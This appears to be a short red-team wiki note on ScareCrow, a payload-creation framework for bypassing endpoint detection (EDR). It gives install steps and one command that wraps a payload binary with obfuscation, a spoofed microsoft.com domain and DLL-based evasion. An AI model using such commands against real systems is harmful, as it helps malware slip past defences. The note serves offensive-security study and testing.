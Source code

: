 # ScareCrow

[ScareCrow](https://github.com/optiv/ScareCrow) - *"Payload creation framework designed around EDR bypass. If you want to learn more about the techniques utilized in this framework please take a look at [Part 1](https://www.optiv.com/explore-optiv-insights/source-zero/endpoint-detection-and-response-how-hackers-have-evolved) and [Part 2](https://www.optiv.com/explore-optiv-insights/source-zero/edr-and-blending-how-attackers-avoid-getting-caught)*"

Due to [[EDR-Bypass]] being a continuous arms race there is no cheatsheet here. Really at this point [[RTFM]] and understand the EDR you are facing to bypassing is better than an approach were one cheatsheet to rule them all is part of the effective workflow. 

```bash
# Install
git clone https://github.com/optiv/ScareCrow.git
go build ScareCrow.go
```

Create bad Windows Office executables
```bash
ScareCrow -I Binary.bin -Loader binary -domain microsoft.com -obfu -Evasion KnownDLL 
```


## References

[ScareCrow](https://github.com/optiv/ScareCrow)
[Optiv article: endpoint-detection-and-response-how-hackers-have-evolved](https://www.optiv.com/explore-optiv-insights/source-zero/endpoint-detection-and-response-how-hackers-have-evolved) 
[Optiv article: edr-and-blending-how-attackers-avoid-getting-caught](https://www.optiv.com/explore-optiv-insights/source-zero/edr-and-blending-how-attackers-avoid-getting-caught)